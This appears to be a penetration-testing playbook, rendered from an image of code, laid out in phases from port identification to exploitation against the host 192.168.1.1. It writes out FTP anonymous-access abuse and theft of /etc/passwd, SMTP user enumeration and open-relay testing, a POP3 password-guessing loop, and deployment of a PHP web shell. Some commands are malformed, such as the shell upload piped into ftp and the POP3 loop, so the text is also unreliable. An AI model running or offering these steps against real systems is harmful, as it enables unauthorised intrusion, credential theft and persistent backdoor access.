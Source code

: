 ```bash
# Service Identification
- Port 21: FTP (File Transfer)
- Port 23: Telnet (Remote Access)  
- Port 25: SMTP (Email Transfer)
- Port 80: HTTP (Web Services)
- Port 110: POP3 (Email Retrieval)
- Port 143: IMAP (Email Management)
PHASE 2: VULNERABILITY ASSESSMENT
bash
# FTP Assessment
echo "QUIT" | nc -w 2 192.168.1.1 21    # Banner analysis
ftp -n 192.168.1.1 << EOF               # Anonymous access test
user anonymous
pass anonymous
quit
EOF

# SMTP User Enumeration
for user in root admin administrator webmaster; do
    echo "VRFY $user" | nc -w 1 192.168.1.1 25
done

# HTTP Information Disclosure
curl -I http://192.168.1.1              # Header analysis
curl http://192.168.1.1/robots.txt      # Directory discovery
PHASE 3: EXPLOITATION & INTELLIGENCE GATHERING
bash
# FTP Exploitation (if anonymous access)
ftp 192.168.1.1
anonymous                                # Login
ls                                       # List files
get confidential.pdf                     # Download files
put backdoor.php                         # Upload (if writable)

# SMTP Open Relay Testing
telnet 192.168.1.1 25
MAIL FROM: test@external.com
RCPT TO: victim@otherdomain.com
DATA                                     # If accepted → open relay!

# Email Credential Testing
for pass in Password123 admin 123456 password; do
    echo "USER admin" && echo "PASS $pass" | nc -w 2 192.168.1.1 110
done
PHASE 4: DATA EXFILTRATION & PERSISTENCE
bash
# FTP Data Exfiltration
ftp -n 192.168.1.1 << EOF
user anonymous anonymous
binary
get /etc/passwd ./passwd_copy.txt
quit
EOF

# Web Shell Deployment (if writable web directory)
echo '<?php system($_GET["cmd"]); ?>' | ftp -n 192.168.1.1
# Then: http://192.168.1.1/shell.php?cmd=whoami

# Email Access for Intelligence
telnet 192.168.1.1 110
USER admin
PASS Password123
LIST                                     # See email subjects
```